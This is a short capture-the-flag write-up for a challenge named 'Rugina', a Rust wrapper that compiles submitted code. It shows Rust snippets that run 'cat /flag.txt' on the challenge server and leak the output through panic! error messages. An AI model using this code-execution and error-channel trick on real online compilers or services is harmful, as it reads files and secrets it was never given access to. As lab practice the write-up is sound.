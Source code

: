 rugina

Aren't you tired of rust? I found the perfect solution for you! Welcome to Rugină. Since there is no compiler for it yet, I made one for you.

- On this one we check the [rugina](https://github.com/aionescu/rugina/tree/principal) repository on github, but we saw is a wrapper for Rust. In that case we tried some normal rust code which we found out that worked.

- First you need to add the function Principal for the compiler to work.

```rust
principal() {

}
```

![rugina-principal](https://raw.githubusercontent.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/refs/heads/main/Rugina/rugina-principal.png?token=GHSAT0AAAAAADLHV3EBVWK4MZJ2WRCATJ4M2GLUMWA)

- After we manage to create some code that worked, but we saw that wasn't printing anything

```rust
principal() {
    let output = std::process::Command::new("cat").arg("/flag.txt").output().unwrap().stdout;
    let output_str = String::from_utf8(output).unwrap_or_default();
    scrie!("{}", output_str.trim());
}
```

![rugina-principal](https://raw.githubusercontent.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/refs/heads/main/Rugina/rugina-println.png?token=GHSAT0AAAAAADLHV3EAVFKRITU7OSZ2ZJZ42GLUMXA)

- We analyze the repository again to check if we made some mistakes, but we didn't. Some time passed and one of us pointed out that "only the errors are shown and not the normal print". In that case we changed from a normal println to panic and in that moment worked.

```rust
principal() {
    let output = std::process::Command::new("cat").arg("/flag.txt").output().unwrap().stdout;
    let output_str = String::from_utf8(output).unwrap_or_default();
    panic!("{}", output_str.trim());
}
```

![rugina-principal](https://raw.githubusercontent.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/refs/heads/main/Rugina/rugina-flag.png?token=GHSAT0AAAAAADLHV3EAWUBPUAXQY2ERFALW2GLUMVQ)

- And this is how we got the flag out
